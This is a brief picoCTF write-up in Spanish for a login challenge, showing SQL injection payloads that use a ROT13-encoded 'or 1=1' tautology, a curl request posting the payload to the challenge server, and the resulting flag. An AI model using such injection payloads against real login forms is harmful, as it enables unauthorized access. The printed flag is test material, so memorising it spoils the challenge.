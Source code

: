 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Datos de acceso al nivel
```
Link: https://jupiter.challenges.picoctf.org/problem/64649/login.php
```

## Solución

```bash
# Logged in!

1: Abrir inspeccionar, quitar la linea hiden para activar el usuario
2:ponemos lo que queramos en usuario y contraseña, damos enter y aparecera :
password: pepe
SQL query: SELECT * FROM admin where password = 'crcr'
3: debe de rotar 13 veces
4: ponemos " ' be 1==1; " en password
5: 

password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

password: ' or 1=1;
SQL query: SELECT * FROM admin where password = '' be 1=1;'

password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}

joseca-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password= ' be 1=1;debug=1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}

``` 
